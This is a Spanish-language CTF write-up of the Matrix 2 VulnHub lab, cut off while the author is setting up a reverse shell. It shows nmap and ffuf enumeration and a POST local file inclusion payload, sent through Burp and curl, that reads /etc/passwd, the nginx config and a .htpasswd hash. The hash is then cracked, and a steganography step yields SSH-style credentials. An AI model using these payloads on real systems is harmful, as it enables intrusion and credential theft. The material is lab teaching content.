









# Matrix 2 (VulnHub) en VMware — WriteUp completo

> **Aviso (ético y legal):** Todo lo descrito aquí está pensado **solo para laboratorio/CTF** y en entornos controlados. No apliques estas técnicas sobre sistemas reales sin autorización.

---

## Descripción de la máquina

**Descripción**  
**Volver arriba**  
**Matrix v2.0** es un desafío **boot2root** de dificultad media. El archivo **OVA** ha sido probado tanto en **VMware** como en **VirtualBox**.

**Dificultad:** Intermedia

**Flags:** Tu objetivo es conseguir **root** y leer `/root/flag.txt`

**Red:**
- **DHCP:** habilitado
- **Dirección IP:** asignada automáticamente

**Pista:** Sigue tus intuiciones… ¡y enumera!

---

## 1) Configuración de red en NAT y por qué se usa

Antes de encender ambas máquinas, las configuramos en **adaptador NAT**.

### ¿Por qué usamos NAT?

Porque así:
- Kali y la víctima quedan en la **misma red virtual privada**,
- reciben IP automáticamente mediante DHCP,
- se pueden ver entre sí,
- y además pueden salir a Internet a través del servicio NAT de VMware.

### Ventajas prácticas en un laboratorio

- No expones la máquina vulnerable a tu red real.
- Es fácil descubrir la IP de la víctima porque cae dentro del mismo rango.
- La comunicación atacante ↔ víctima es directa dentro de la subred.
- Mantienes el entorno contenido y repetible.

---

## 2) Identificar nuestra IP y rango de red

Desde Kali lanzamos:

```bash
ip a
```

Salida relevante:

```text
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:49:2d:a4 brd ff:ff:ff:ff:ff:ff
    inet 192.168.184.128/24
```

### Qué nos interesa aquí

- **Interfaz:** `eth0`
- **IP de Kali:** `192.168.184.128`
- **Máscara:** `/24`
- **Rango de red:** `192.168.184.0/24`

Con eso ya sabemos que la víctima, al estar en la misma red NAT, debería caer también en ese rango.

---

## 3) Descubrir la IP de la víctima con Nmap

Lanzamos:

```bash
sudo nmap -n -sn 192.168.184.128/24
```

### Explicación detallada de flags

- `sudo`  
  Nmap puede usar métodos de descubrimiento que requieren privilegios.

- `-n`  
  Desactiva la resolución DNS.  
  Es decir:
  - no intenta convertir IPs en nombres de host,
  - hace el escaneo más rápido,
  - y evita tráfico extra innecesario.

- `-sn`  
  Hace un **Ping Scan**.  
  Esto significa:
  - detecta qué hosts están activos,
  - **pero no escanea puertos**.

  En otras palabras:
  - ✅ descubre máquinas vivas
  - ❌ no enumera servicios todavía

- `192.168.184.128/24`  
  Le estás diciendo a Nmap que recorra toda la red `192.168.184.0/24`.

### Salida observada

```text
192.168.184.1
192.168.184.2
192.168.184.132
192.168.184.254
192.168.184.128
```

### Interpretación

- `192.168.184.128` → Kali
- `192.168.184.1`, `.2`, `.254` → infraestructura típica de VMware NAT
- `192.168.184.132` → la otra VM, la candidata a víctima

### Conclusión

La IP de la máquina víctima es:

- **`192.168.184.132`**

---

## 4) Escaneo completo de puertos

Ahora sí hacemos el escaneo completo:

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.184.132
```

### Explicación detallada

- `-p-`  
  Escanea **todos los puertos TCP** del 1 al 65535.

- `--open`  
  Muestra solo los puertos abiertos.

- `-sC`  
  Ejecuta los scripts NSE por defecto.  
  Muy útil porque a veces te revela:
  - títulos web,
  - rutas `robots.txt`,
  - comportamientos raros,
  - banners.

- `-sV`  
  Detecta versiones de servicios.

- `-Pn`  
  Asume que el host está activo.  
  No depende de un descubrimiento por ping previo.

- `-T5`  
  Timing agresivo.  
  En laboratorio acelera mucho, aunque en una auditoría real sería bastante ruidoso.

- `-vvv`  
  Muy verboso. Sirve para ver el escaneo en detalle mientras corre.

- `-oN fullscan`  
  Guarda la salida en un archivo de texto normal llamado `fullscan`.

### Información relevante obtenida

```text
80/tcp    open  http               nginx 1.10.3
1337/tcp  open  ssl/http           nginx
12320/tcp open  ssl/http           ShellInABox
12321/tcp open  ssl/warehouse-sss?
12322/tcp open  ssl/http           nginx
```

Además, en el puerto `12322` Nmap detecta algo interesante:

- `file_view.php`

---

## 5) Interpretación inicial de los servicios encontrados

### Puerto 80 — `nginx 1.10.3`
Servidor web normal, accesible por HTTP.

### Puerto 1337 — `ssl/http nginx`
Otro servidor web, pero bajo HTTPS.  
El puerto `1337` no es estándar, así que suele ser un buen candidato a:
- paneles ocultos,
- apps secundarias,
- laboratorios con pistas o auth básica.

### Puerto 12320 — `ShellInABox`
Esto es importante.

**ShellInABox** es un servicio que permite abrir una consola Linux **desde el navegador**.  
Es decir, una terminal web accesible normalmente por HTTPS.

### Puerto 12321 — `ssl/warehouse-sss?`
Nmap no está seguro.  
El `?` indica detección tentativa:
- el servicio es raro,
- o el banner no encaja claramente con algo conocido,
- o hay TLS/SSL por delante dificultando la identificación.

### Puerto 12322 — `ssl/http nginx`
Otro servidor web HTTPS en un puerto raro.  
Los puertos raros a menudo esconden:
- paneles de administración,
- aplicaciones secundarias,
- rutas olvidadas,
- o funcionalidades vulnerables del laboratorio.

---

## 6) Página principal en el puerto 80

Abrimos en navegador:

- `http://192.168.184.132:80`

📷 **Imagen 1 — Web principal en 80**


Abajo aparece este mensaje:

> This is your last chance. After this, there is no turning back. You take the blue pill - the story ends, you wake up in your bed and believe whatever you want to believe. You take the red pill - you stay in Wonderland and I show you how deep the rabbit-hole goes.

> You have to let it all go, Neo. Fear, doubt, and disbelief. Free your mind.

### Traducción

> Esta es tu última oportunidad. Después de esto, no hay vuelta atrás. Tomas la píldora azul: la historia termina, te despiertas en tu cama y crees lo que quieras creer. Tomas la píldora roja: te quedas en Wonderland y te muestro hasta qué profundidad llega la madriguera del conejo.

> Tienes que dejarlo todo atrás, Neo. El miedo, la duda y la incredulidad. Libera tu mente.

### Qué nos dice esto

De primeras no hay una pista técnica directa.  
Es más ambientación temática de Matrix que otra cosa.

Aun así, conviene:
- fuzzear,
- revisar el source,
- y no dar nada por perdido.

---

## 7) Fuzzing sobre el puerto 80

Ejecutamos:

```bash
ffuf -u http://192.168.184.132/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Explicación detallada de flags

- `-u http://192.168.184.132/FUZZ`  
  URL objetivo.  
  `FUZZ` es el marcador que `ffuf` reemplaza por cada palabra del diccionario.

- `-c`  
  Salida con colores para una lectura más cómoda.

- `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`  
  Wordlist de rutas y directorios.

- `-t 100`  
  Número de hilos concurrentes.  
  Cuantos más hilos:
  - más rápido,
  - pero también más ruido generas.

### Resultado

No aparece nada útil.

### Conclusión

El puerto 80, en esta fase, **no nos da prácticamente nada**:
- ni por fuzzing,
- ni por source code,
- ni por contenido visible.

---

## 8) Probar el puerto 1337

Intentamos abrir:

- `http://192.168.184.132:1337`

Y responde con:

📷 **Imagen 2 — 400 Bad Request**


Mensaje:

```text
400 Bad Request
The plain HTTP request was sent to HTTPS port
```

### Qué significa

Esto significa literalmente:
- has enviado una petición **HTTP normal**
- a un puerto que espera **HTTPS**

Es decir:
- el servicio existe,
- pero habla TLS/SSL,
- por eso hay que usar `https://` en la URL.

Probamos entonces:

- `https://192.168.184.132:1337`

Y aparece una autenticación básica:

📷 **Imagen 3 — Basic Auth en 1337**


Nos pide:
- username
- password

Y todavía no tenemos credenciales.

---

## 9) Probar el puerto 12320 (ShellInABox)

Ahora vamos al puerto `12320`.

Probamos en navegador:
- `https://192.168.184.132:12320`

Y aparece una terminal web tipo login:

📷 **Imagen 4 — ShellInABox**


### Qué es este servicio

**ShellInABox** permite interactuar con una terminal Linux desde el navegador.  
No es “una shell ya conseguida”, sino un **frontend web para login remoto**.

Es decir:
- si tienes credenciales válidas,
- puedes iniciar sesión desde el navegador y obtener una terminal.

De momento no las tenemos.

---

## 10) Probar el puerto 12321

Intentamos acceder a `12321`, pero:
- no se muestra nada útil vía web,
- Nmap tampoco nos dio una identificación sólida,
- y no tenemos una pista clara todavía.

### Conclusión

Por ahora, **12321 no nos aporta un camino de explotación**.

---

## 11) Probar el puerto 12322

Vamos al siguiente servicio:

- `https://192.168.184.132:12322`

Y vemos otra web:

📷 **Imagen 5 — Web en 12322**


Visualmente parece muy parecida a la del puerto 80.

Probamos fuzzing:

```bash
ffuf -u https://192.168.184.132:12322/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Las flags son exactamente las mismas que antes
Solo cambia que ahora usamos:
- `https://`
- puerto `12322`

### Resultado

No saca nada útil por fuzzing.

### Pero aquí hay una diferencia importante

En el Nmap, para este puerto, sí habían salido pistas interesantes:

```text
| http-robots.txt: 1 disallowed entry 
|_file_view.php
|_http-title: Welcome in Matrix v2 Neo
|_ssl-date: TLS randomness does not represent time
```

Y esto es justo el tipo de detalle que no hay que pasar por alto.

---

## 12) `robots.txt`: qué es y por qué interesa tanto

Nmap nos está diciendo que existe un `robots.txt`.

### Qué es `robots.txt`

Es un archivo pensado para buscadores y bots, para indicar qué rutas:
- no deberían indexar,
- o no deberían rastrear.

### Qué no es

No es una medida de seguridad.  
No protege nada por sí mismo.  
Solo da una instrucción “educada” a los bots.

### Por qué es interesante en pentesting/CTF

Porque muchas veces contiene:
- rutas ocultas,
- paneles internos,
- ficheros sensibles,
- nombres de recursos que el autor no quería enseñar demasiado.

Así que, si aparece una ruta en `robots.txt`, siempre conviene probarla.

Abrimos:

- `https://192.168.184.132:12322/robots.txt`

Contenido:

```text
User-agent: *
Disallow: file_view.php
```

### Interpretación

Eso indica que existe un recurso llamado:

- `file_view.php`

Y además el autor no quiere que los bots lo indexen.

Eso, en un laboratorio, es casi una invitación a investigarlo.

---

## 13) Acceder a `file_view.php`

Probamos:

- `https://192.168.184.132:12322/file_view.php`

La página se ve en blanco, pero no significa que no exista.  
Si la analizamos en detalle, devuelve un:

- **200 OK**

📷 **Imagen 6 — `file_view.php` responde 200**


### Por qué esto importa

Una página en blanco puede ser:
- un error silencioso,
- una plantilla vacía,
- una funcionalidad que espera parámetros,
- o una salida que no se está renderizando visualmente.

Pero **200 OK** significa:
- el recurso existe,
- el servidor lo ha servido correctamente,
- no es un 404 ni un 403.

Si miramos el source code (`Ctrl + U`), aparece:

```html
<!-- Error file parameter missing..!!! -->
```

### Esto ya nos da una pista brutal

Nos dice claramente:
- existe un parámetro llamado `file`
- y la página espera recibirlo

---

## 14) Empezar a pensar en LFI

Si una página llamada `file_view.php` espera un parámetro `file`, enseguida pensamos en una posible **LFI**:

- **Local File Inclusion**

### Qué es LFI

Es una vulnerabilidad en la que una aplicación incluye o lee ficheros locales del sistema usando un parámetro controlado por el usuario.

Ejemplo típico:
- `?file=algo`

Si la aplicación no valida bien ese valor, podemos intentar:
- leer archivos del servidor,
- recorrer directorios con `../`,
- y acceder a rutas sensibles como `/etc/passwd`.

---

## 15) Por qué en GET no parece funcionar

Pruebas algo como:

- `?file=test`

pero no obtienes el comportamiento esperado.  
Y si desde Burp repites una petición GET con `file=...`, sigue mostrando:

```html
<!-- Error file parameter missing..!!! -->
```

Eso sugiere algo importante:
- el parámetro **no se está leyendo desde la URL**
- o el PHP no está procesando `$_GET['file']`
- y quizá está esperando **`$_POST['file']`**

---

## 16) Burp Repeater y por qué cambiar de GET a POST puede funcionar

Capturas la petición y la mandas a **Repeater**.

### Qué es Repeater

Es una función de Burp Suite que permite:
- coger una petición HTTP ya capturada,
- modificarla manualmente,
- reenviarla una y otra vez,
- y observar cómo cambia la respuesta.

Es muy útil porque evita:
- recargar el navegador,
- volver a interceptar,
- o repetir el flujo completo cada vez.

### Por qué cambiar el método HTTP puede funcionar

Una aplicación PHP puede recoger parámetros de varias formas:
- `$_GET['file']` → si el parámetro viene en la URL
- `$_POST['file']` → si el parámetro viene en el cuerpo de una petición POST

Si el desarrollador implementó el código esperando POST, entonces:
- mandar `?file=...` en la URL no sirve
- pero mandar `file=...` en el body sí

Por eso, al hacer clic derecho y cambiar el request method de **GET a POST**, Burp:
- mueve el parámetro fuera de la URL
- lo coloca en el body
- y ajusta cabeceras como:
  - `Content-Type: application/x-www-form-urlencoded`
  - `Content-Length`

### Petición POST ejemplo

```http
POST /file_view.php HTTP/1.1
Host: 192.168.184.132:12322
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

file=../../../../../../../etc/passwd
```

### Por qué esta prueba tiene sentido

Porque estás probando:
1. si el parámetro debe ir por POST
2. si además la ruta es vulnerable a LFI

---

## 17) Respuesta `HTTP/1.1 200 OK` y qué significa

Cuando envías la petición POST con:

```text
file=../../../../../../../etc/passwd
```

obtienes:

```http
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 12 Mar 2026 18:56:26 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Content-Type-Options: nosniff
Content-Length: 1667
```

### Qué significa esto

- **`HTTP/1.1 200 OK`**  
  La petición ha sido procesada correctamente.

- **`Server: nginx`**  
  El servidor web que sirve la respuesta es nginx.

- **`Content-Type: text/html; charset=UTF-8`**  
  El contenido se entrega como HTML/texto.

- **`Content-Length: 1667`**  
  La respuesta tiene 1667 bytes.

### Lo importante de verdad

Después de esas cabeceras, aparece el contenido de:

- `/etc/passwd`

Eso confirma sin duda:
✅ existe una **LFI funcional**
✅ el parámetro `file` se procesa por **POST**
✅ puedes leer archivos locales del sistema

---

## 18) Leer `/etc/passwd` y por qué es tan útil

La salida incluye usuarios como:

```text
root:x:0:0:root:/root:/bin/bash
...
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```

### Qué te aporta `/etc/passwd`

- lista de usuarios del sistema
- shells válidas
- homes
- posibles cuentas útiles

Aquí ya aparece algo importante:

- `n30` → claramente relevante por temática Matrix/Neo

---

## 19) Hacer lo mismo con `curl` desde terminal

También puedes reproducir esta LFI desde terminal con:

```bash
curl -X POST -k https://192.168.184.132:12322/file_view.php -d "file=../../../../../../../etc/passwd"
```

### Explicación detallada de flags

- `curl`  
  Herramienta para hacer peticiones HTTP/HTTPS desde terminal.

- `-X POST`  
  Fuerza el método HTTP **POST**.

- `-k`  
  Acepta certificados TLS inseguros o autofirmados.  
  Es necesario aquí porque el sitio usa HTTPS con certificado no confiable.

- `https://192.168.184.132:12322/file_view.php`  
  URL objetivo.

- `-d "file=../../../../../../../etc/passwd"`  
  Envía datos en el body de la petición, en formato tipo formulario.

### Qué hace realmente

Es equivalente a la petición que estabas montando en Burp:
- método POST
- parámetro `file` en el body
- conexión HTTPS ignorando el problema del certificado

---

## 20) Qué archivos revisar con la LFI

Ahora que ya sabemos que podemos leer archivos locales, toca pensar con cabeza.

### ¿Qué queremos?
Queremos:
- credenciales
- configuraciones
- rutas internas
- vhosts
- ficheros de auth
- y cualquier cosa que nos ayude a entrar por otro servicio

### ¿Qué sabemos del entorno?
Sabemos que:
- el servidor web es **nginx**
- hay varios puertos web
- algunos usan autenticación
- y uno de ellos es claramente más “cerrado” que los otros

Así que una muy buena idea es revisar la configuración de nginx.

---

## 21) Leer la configuración de nginx

Una ruta muy habitual en sistemas Debian/Ubuntu con nginx es:

- `/etc/nginx/sites-available/default`

Así que probamos con la LFI:

```text
file=../../../../../../../etc/nginx/sites-available/default
```

Y devuelve:

```nginx
server {
    listen 0.0.0.0:80;
    root /var/www/4cc3ss/;
    index index.html index.php;

    include /etc/nginx/include/php;
}

server {
    listen 1337 ssl;
    root /var/www/;
    index index.html index.php;

auth_basic "Welcome to Matrix 2";
auth_basic_user_file /var/www/p4ss/.htpasswd;

    fastcgi_param HTTPS on;
    include /etc/nginx/include/ssl;
    include /etc/nginx/include/php;
}
```

### Qué información útil saca esto

Muchísima.

#### En el puerto 80
- root web: `/var/www/4cc3ss/`

#### En el puerto 1337
- escucha con `ssl`
- usa **Basic Auth**
- y lo más importante:

```nginx
auth_basic_user_file /var/www/p4ss/.htpasswd;
```

Eso nos dice dónde están las credenciales HTTP Basic.

---

## 22) Leer el archivo `.htpasswd`

Con la misma LFI probamos:

```text
file=../../../../../../../var/www/p4ss/.htpasswd
```

Y devuelve:

```text
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

### Qué significa esto

Tenemos:
- usuario: `Tr1n17y`
- contraseña: almacenada como hash Apache MD5 (`$apr1$...`)

Eso es una mina.

---

## 23) Crackear el hash con John

Guardas el hash en un fichero, por ejemplo `hash`, y ejecutas:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### Qué hace este comando

- `john`  
  John the Ripper, herramienta de cracking de contraseñas.

- `hash`  
  Archivo que contiene el hash a crackear.

- `--wordlist=/usr/share/wordlists/rockyou.txt`  
  Le dices que use el diccionario `rockyou.txt`, una de las wordlists clásicas para pruebas de laboratorio.

### Resultado

La contraseña es:

- `admin`

Así que ya tenemos credenciales válidas para el Basic Auth:

- usuario: `Tr1n17y`
- contraseña: `admin`

---

## 24) Probar credenciales en el puerto 1337

Volvemos al panel de login del puerto 1337 e introducimos:

- `Tr1n17y`
- `admin`

Y logramos autenticarnos.

📷 **Imagen 7 — Acceso al 1337 tras login**


### Nuevo mensaje visible

Aparece el mensaje:

```html
I'm trying to free your mind, n30.
But I can only show you the door.
You're the one that has to walk through it.
```

### Traducción

> Estoy intentando liberar tu mente, `n30`.  
> Pero solo puedo mostrarte la puerta.  
> Tú eres quien tiene que atravesarla.

### Qué nos deja esto

Una pista importantísima:
- el nombre **`n30`** vuelve a aparecer
- recuerda al usuario visto en `/etc/passwd`

---

## 25) Revisar el código fuente tras autenticarnos

Al ver el source code de la página autenticada, aparece una ruta interesante:

```html
src="4cc3ss/js/index.js"
```

El nombre `4cc3ss` recuerda al root web visto antes en nginx:

- `/var/www/4cc3ss/`

Probamos navegar a:

- `https://192.168.184.132:1337/4cc3ss/`

Visualmente no saca gran cosa.  
El JavaScript tampoco da una pista decisiva.

Pero al revisar de nuevo el source, aparece un comentario muy importante:

```html
<!--img src="h1dd3n.jpg"-->
```

Esto significa que existe una imagen llamada:

- `h1dd3n.jpg`

y está comentada para no mostrarse directamente.

---

## 26) Acceder a `h1dd3n.jpg`

Probamos:

- `https://192.168.184.132:1337/h1dd3n.jpg`

Y aparece una imagen con texto.

📷 **Imagen 8 — Imagen oculta**


### Traducción del mensaje

> “Estoy intentando liberar tu mente, Neo.  
> Pero solo puedo mostrarte la puerta.  
> Tú eres quien tiene que atravesarla.”

La idea es muy similar al mensaje anterior, pero ahora usa **Neo** y refuerza el concepto de “puerta” y “camino”.

---

## 27) Descargar la imagen y analizarla

Te guardas la imagen localmente y empiezas a analizarla.

Mencionas Aperi'Solve, que es muy útil porque agrega:
- `strings`
- `exiftool`
- binwalk
- stego básico
- otros análisis forenses rápidos

### Resultado inicial
No aparece nada demasiado claro con:
- metadatos
- strings
- exiftool

Pero aquí entra una idea muy buena:  
en la página autenticada aparecía una palabra en rojo:

- `n30`

Y además acabas de descargar una imagen que parece claramente intencionada.

Eso te lleva a probar **esteganografía** con esa palabra como posible passphrase.

---

## 28) `steghide` y por qué se prueba aquí

Usas:

```bash
steghide extract -sf img.jpeg -p n30
```

### Explicación de flags

- `steghide`  
  Herramienta para ocultar y extraer información embebida en archivos, normalmente imágenes o audio.

- `extract`  
  Le indica que quieres **extraer** datos ocultos.

- `-sf img.jpeg`  
  `-sf` = **stego file**  
  Especifica el archivo contenedor que quieres analizar.

- `-p n30`  
  Passphrase usada para intentar desbloquear la información oculta.

### Resultado

```text
wrote extracted data to "n30.txt".
```

Eso confirma que:
- la imagen sí tenía contenido oculto,
- y la passphrase correcta era `n30`.

---

## 29) Leer `n30.txt`

Haces:

```bash
cat n30.txt
```

Contenido:

```text
P4$$w0rd
```

### Qué deducimos

Tenemos una contraseña:

- `P4$$w0rd`

Y por el nombre del archivo (`n30.txt`) y por lo visto antes en `/etc/passwd`, es razonable asociarla al usuario:

- `n30`

De hecho, ese usuario ya lo habíamos visto:

```text
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
```

---

## 30) Probar credenciales en ShellInABox (12320)

Ahora sí tiene sentido volver al puerto `12320`, donde estaba la terminal web.

Probamos:
- usuario: `n30`
- password: `P4$$w0rd`

Y esta vez sí conseguimos acceso.

📷 **Imagen 9 — Shell como `n30`**


Ya estamos dentro como:

```text
n30@Matrix_2 ~$
```

Y confirmamos:

```bash
whoami
```

Resultado:

```text
n30
```

---

## 31) Enumeración inicial como `n30`

Listamos el home:

```bash
ls -la
```

Y vemos:

```text
-rw------- 1 n30  n30   950 Dec 13  2018 .bash_history
...
drwx------ 2 n30  n30  4096 Dec  7  2018 .ssh
```

### Qué llama la atención

Sin duda:
- `.bash_history`

En muchas máquinas de laboratorio bien diseñadas, ese archivo:
- o no existe,
- o está vacío,
- o está desactivado,
precisamente para que no te regale pistas.

Si aquí está presente y tiene contenido, **hay que mirarlo sí o sí**.

---

## 32) Mejorar la shell con reverse shell + Penelope

Aunque ya tienes una shell web funcional, es habitual querer una shell más cómoda y estable.

En Kali pones a **Penelope** en escucha:

```bash
penelope -p 4444
```

Luego vas a:

- `https://www.revshells.com/`

Y completas:
